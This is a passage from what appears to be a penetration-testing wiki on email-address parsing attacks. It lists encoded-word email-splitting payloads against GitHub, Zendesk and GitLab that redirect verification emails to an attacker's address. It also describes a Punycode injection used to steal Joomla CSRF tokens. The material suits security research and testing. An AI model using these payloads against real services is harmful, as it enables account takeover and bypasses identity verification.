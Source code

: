 Payloads:

- Github: `=?x?q?collab=40psres.net=3e=00?=foo@example.com`
  - Note the encoded `@` as =40, the encoded `>` as `=3e` and `null` as `=00`
  - It'll send the verification email to `collab@psres.net`
- Zendesk: `"=?x?q?collab=22=40psres.net=3e=00==3c22x?="@example.com`
  - Same trick as before but adding some regular quote at the beginning and encoded qoute `=22` before the encoded `@` and then starting and close some qoutes before the next email to fix the syntax used internally by Zendesk
  - It'll send the verification email to `collab@psres.net`
- Gitlab: `=?x?q?collab=40psres.net_?=foo@example.com`
  - Note the use of the underscore as a space to separate address
  - It'll send the verification email to `collab@psres.net`
- Punycode: Using Punycode it was possible to inject a tag `<style` in Joomla and abuse it to steal the CSRF token via CSS exfiltration.

#### Tooling

- There is a **Burp Suite Turbo Intruder script** to fuzz these kind of combinations to try to attack email formats. The script already have potentially working combinations.
- It's laso possible to use [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) to create an email splitting attack

### Other vulns

![https://www.youtube.com/watch?app=desktop&v=4ZsTKvfP1g0](<../images/image (1131).png>)

## Third party SSO

### XSS
